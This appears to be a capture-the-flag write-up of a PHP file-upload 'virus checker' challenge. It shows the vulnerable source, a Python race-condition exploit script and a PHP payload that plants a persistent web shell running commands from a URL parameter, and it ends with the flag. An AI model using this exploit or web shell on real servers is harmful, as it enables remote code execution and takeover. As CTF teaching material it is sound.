 # Web (200 Points) 71-solves

## Challenge Description
Have a suspicious file? Check it for viruses here.
author: rugo|RedRocket

Race condition to RCE
## Challenge Files

This challenge was similar to CSCG 2022 file upload, whereby a race condition is exploited.

```
<?php

if (isset($_FILES["file"])) {
    $size = $_FILES["file"]['size'];

    if ($size > 3000) {
        echo "For such large files, buy premium";
    } else {
        $target_dir = "uploads/";
        $target_file = $target_dir . $_FILES["file"]["name"];

        move_uploaded_file($_FILES["file"]["tmp_name"], $target_file);

        function hasVirus($file_path) {
            # Check for Virus
            $argument = escapeshellarg($file_path);
            exec("clamscan $argument", $output, $retval);

            if ($retval != 0) {
                return true;
            }
            return false;
        }

        if (hasVirus($target_file)) {
            echo "The file contains a virus!";
        } else {
            echo "The file is safe to use!";
        }

        unlink($target_file);
    }

}

if (isset($_GET["source"])) {
    highlight_file(__FILE__);
}
?>

```

## Solution
We can upload files to the application for it to inspect the file contents and check for viruses. However, the application stores the file to the server first, then only checks the file and deletes it subsequently. Therefore, we have a race condition where we can try to request the file before it is deleted from the server.

exploit.py
```
import threading
import requests


url = "http://viruscheckor.rumble.host/index.php"
file_location = "http://viruscheckor.rumble.host/uploads/virus.php"

def access_file():
    while(True):
        r = requests.get(file_location)
        if (r.ok and "Not Found" not in r.text):
                print(f'Success: {r.text}')
                return
        
def race(ses):
    t = threading.Thread(target=access_file)
    t.start()
    while(t.is_alive()):
        with open ('./virus.php','rb') as file:
            r = ses.post(url,files={"file":file})
        t.join()
        
if (__name__ == "__main__"):
    ses = requests.Session()
    race(ses)
```
Virus.php contains code to upload a persistent webshell to the server.

virus.php
```
<?php
$data = "<?php system (\$_GET['cmd']);?>";
file_put_contents("race_exploit.php",$data);
?>
```

Here I write a file called "race_exploit.php" as a simple web shell to execute commands

Going to the uploads directory /uploads/race_exploit.php presents us with the webshell

![image1](./images/id.png)

The steps are:
1. Upload php file to write persistent webshell to server
2. Race the server and include the file before it is deleted
3. Go to uploads directory and access web shell to execute commands

## Flag
Flag is located in /var/www/html/flag.php

```
CSR{MIGHTSTILLBEMALLICIOUS}
```


